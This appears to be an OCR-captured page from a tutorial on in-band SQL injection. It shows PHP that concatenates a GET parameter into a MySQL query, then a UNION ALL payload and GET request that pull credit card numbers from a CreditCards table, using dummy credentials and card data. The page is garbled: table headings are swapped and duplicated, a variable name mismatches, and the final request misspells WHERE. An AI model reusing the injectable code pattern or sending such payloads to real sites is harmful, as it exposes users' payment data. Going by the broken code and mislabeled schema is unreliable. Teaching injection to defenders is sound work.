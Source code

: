     **Users**
    |user_id(int)|Cc_num(int)        |CVS(int)|
    |------------|-------------------|--------|
    | 1          |0000 1111 2222 3333| 123    |
    | 2          |0123 4567 8901 2345| 321    |

  The *user_id* column is the foreign key of the *Users* table.
  In this example *admin* has a credit card number of *0000 1111 2222 3333* while *fred* has a credit card number of *0123 4567 8901 2345*.
    **CreditCards**
    |id(int)|username(string)|password(string)|real_name(string)|
    |-------|----------------|----------------|-----------------|
    | 1     | admin          |strongpass123   |Armando Romeo    |
    | 2     | fred           |wowstrongpass123|Fred Flintstone  |

    **Users**
    |user_id(int)|Cc_num(int)        |CVS(int)|
    |------------|-------------------|--------|
    | 1          |0000 1111 2222 3333| 123    |
    | 2          |0123 4567 8901 2345| 321    |

  The web application uses the following code to display usernames:
    ```
    <?php
    $rs=mysql_query("SELECT real_name FROM users WHERE id=".$_GET['id'].";");
    $row=mysql_fetch_assoc($rc);


    echo $row['real_name'];
    ?>
    ```
    As you can see, there is a clear SQL injection point in the id field of the SQL query.

  We can now exploit the SQLi vulnerability to retrieve the credit card associated with a username. Our payload is:
    ```
    9999 UNION ALL SELECT cc_num FROM CreditCards WHERE user_id=1
    ```

  The payload makes the query in the web application transform into the following:
    ```
    SELECT real_name FROM users WHERE id=9999 UNION ALL SELECT cc_num FROM CreditCards WHERE user_id=1;
    ```

    As there are no *users* with *id=9999* the web application will display on its output the *cc_num* of the first user.

  We can now submit the payload to the web application by sending a *GET request* with either the browser or, via different tool:
    ```
    /vuln_to_inband.php?id=9999 UNION ALL SELECT cc_num FROM CreditCards WHER user_id=1
    ```
    Note the use of `ALL` operator. We used it to avoid the effect of an eventual *DISTINCT* clause in the original web application query.
